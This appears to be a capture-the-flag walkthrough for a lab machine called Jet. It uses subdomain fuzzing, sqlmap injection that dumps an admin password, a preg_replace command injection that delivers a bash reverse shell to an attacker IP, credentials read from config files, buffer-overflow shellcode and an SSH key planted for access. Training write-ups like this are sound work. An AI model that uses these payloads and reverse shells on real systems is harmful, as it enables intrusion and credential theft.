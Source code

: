 # Flags
-----

## Connect FLAG

Scan

1. Scan the machine. Find multiple ports open.
2. Enther web server and find the flag in the home page.

## Digging in...

Network

1. Find domain with `dig` command.
2. `dig @ip -x ip` to find the domain.
3. Add the domain to `/etc/hosts` file.
4. Enter web server and find the flag in the home page.

## Going Deeper

Discovery

1. Scan subdomains with `wfuzz`.
2. `wfuzz -c --hw=98 -w /usr/share/wordlists/dirb/subdomains-top1million-110000.txt -H "HOST: FUZZ.<domain>.jet http://<domain>.jet`.
3. dirsearch to find hidden directories `dirsearch -u http://<domain>.jet`.
4. found `/js/secure.js`
5. read `eval` function and obtain

```js
function getStats()
{
    $.ajax({url: "/dirb_safe_dir_rf9EmcEIx/admin/stats.php",

        success: function(result){
        $('#attacks').html(result)
    },
    error: function(result){
         console.log(result);
    }});
}
getStats();
setInterval(function(){ getStats(); }, 10000);
```

6. Enter `/dirb_safe_dir_rf9EmcEIx/admin/stats.php` and obtain a number.
7. Delete `stats.php` and go inside `/dirb_safe_dir_rf9EmcEIx/admin/` and find a login
8. Inspect source code and find a flag in the comments. 

## Bypassing Authentication

SQL Injection

1. Capture request with Burp Suite.
2. Save request file by using the proxy tab.
3. Do a sql injection with `sqlmap` to find the password of the `admin` user.
4. `python3 sqlmap.py --batch --dbs -r ~/Documents/Proyectos/hack-the-box/fortress/jet/req --ignore-code 401`
5. `python3 sqlmap.py -D jetadmin --dump --batch -r ~/Documents/Proyectos/hack-the-box/fortress/jet/req --ignore-code 401`
6. Password is Hackthesystem200
7. Decode the SHA256 password and login into the admin panel.
8. Find a flag in the home page.

## Command

Command Injection

1. Look around in the page
2. Find that the only thing with interaction is the email widget.
3. Try to send an email
4. See that there is a profanity filter
5. Enter burp suite and capture the request

```bash
POST /dirb_safe_dir_rf9EmcEIx/admin/email.php HTTP/1.1
Host: www.securewebinc.jet
Content-Length: 276
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://www.securewebinc.jet
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://www.securewebinc.jet/dirb_safe_dir_rf9EmcEIx/admin/dashboard.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=04r2ani40qfqn96icomi2uv816
Connection: close

swearwords%5B%2Ffuck%2Fi%5D=make+love&swearwords%5B%2Fshit%2Fi%5D=poop&swearwords%5B%2Fass%2Fi%5D=behind&swearwords%5B%2Fdick%2Fi%5D=penis&swearwords%5B%2Fwhore%2Fi%5D=escort&swearwords%5B%2Fasshole%2Fi%5D=bad+person&to=adsdsa%40asd&subject=123&message=whore&_wysihtml5_mode=1
```


6. We should send a message which triggers the filter for example `whore`
7. Replace the second part of the message `swearwords%5B%2Fwhore%2Fi%5D=escort`
8. Start a listener with `nc -lvnp 4444`
9. Replace `escort` with `system("/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP/4444 0>&1'");` but URL encoded.

```
swearwords%5B%2Ffuck%2Fi%5D=make+love&swearwords%5B%2Fshit%2Fi%5D=poop&swearwords%5B%2Fass%2Fi%5D=behind&swearwords%5B%2Fdick%2Fe%5D=%73%79%73%74%65%6d%28%18%27%62%61%73%68%20%2d%63%20%22%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%34%2f%34%34%34%34%20%30%3e%26%31%22%27%19%29%3b&swearwords%5B%2Fwhore%2Fi%5D=escort&swearwords%5B%2Fasshole%2Fi%5D=bad+person&to=test%40local.com&subject=Test&message=%3Cp%3Edick%3C%2Fp%3E%3Cp%3Ebitch%3Cbr%3E%3C%2Fp%3E&_wysihtml5_mode=1
```

10. If everything goes well, we should have a shell.

## Overflown

1. Enumerate system

```bash
www-data@jet:/home/tony$ cat .bash_history 
openssl rsautl -decrypt -inkey keys/private.key -in key.bin.enc -out key.bin
openssl enc -d -aes-256-cbc -in secret.enc -out secret.txt -pass file:./key.bin
vi secret.txt
rm secret.txt 
rm key.bin
rm keys/private.key 
exit
```

```bash
/var/www/html/dirb_safe_dir_rf9EmcEIx/admin/db.php:$hashPassword = password_hash($password,PASSWORD_BCRYPT);                                                              
/var/www/html/dirb_safe_dir_rf9EmcEIx/admin/db.php:$password = "dcr46kdl6zsld68idtyufldro";                                                                               
/var/www/html/dirb_safe_dir_rf9EmcEIx/admin/db.php:$password = 'apasswordhere';   
```

```bash
/opt/source/php-5.2.17/ext/soap/TODO.old
```

```bash
find / -perm -4000 -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/snapd/snap-confine
/usr/bin/chsh
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/at
/usr/bin/newgidmap
/usr/bin/chfn
/usr/bin/sudo
/lib/uncompress.so
/home/leak
/bin/umount
/bin/su
/bin/fusermount
/bin/mount
/bin/ping
/bin/ntfs-3g
/bin/ping6
```

2. In the `/home` there is a file called `leak` which is a binary that we are going to download and analyze.
3. We can use `checksec` to see the security features of the binary.

```bash
● ● λ checksec --file=leak
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   78) Symbols       No    0               2               leak
```

![re](assets/re.png)

```bash
\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05
```

Execute `poc.py` to get into the system with the user `alex`.

Add your id_rsa.pub to the `authorized_keys` file. Then, login with `ssh -i id_rsa alex@10.13.37.10`.

## Secret Message

### Ports

tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:953           0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:7777            0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      1472/nginx: worker 
tcp        0      0 10.13.37.10:9201        0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:5555            0.0.0.0:*               LISTEN      -               
tcp        0      0 10.13.37.10:53          0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:53            0.0.0.0:*               LISTEN      -               
tcp6       0      0 :::22                   :::*                    LISTEN      -               
tcp6       0      0 ::1:953                 :::*                    LISTEN      -               
tcp6       0      0 127.0.0.1:9200          :::*                    LISTEN      -               
tcp6       0      0 127.0.0.1:9300          :::*                    LISTEN      -               
tcp6       0      0 :::53                   :::*                    LISTEN      -               
udp        0      0 10.13.37.10:53          0.0.0.0:*                           -               
udp        0      0 127.0.0.1:53            0.0.0.0:*                           -               
udp6       0      0 :::53                   :::*                                -    

### Versions

- Nginx 1.10.3
- OpenSSH 7.2p2
- ISC BIND 9.10.3-P4-Ubuntu
- Handlebars 1.3.0
- CKEditor 4

### Links

- https://library.mosse-institute.com/articles/2022/06/using-metasploit-to-enumerate-ssh/using-metasploit-to-enumerate-ssh.html
- https://github.com/rapid7/ssh-badkeys/tree/master/authorized
- https://captainnoob.medium.com/command-execution-preg-replace-php-function-exploit-62d6f746bda4
- https://www.shellhacks.com/encrypt-decrypt-file-password-openssl/
- https://stackoverflow.com/questions/44556590/how-can-i-exploit-a-buffer-overflow
- https://myhack.tech/revexp/
- https://gist.github.com/grittyninja/64cf24c311acf7cd1ec652ebefec59ed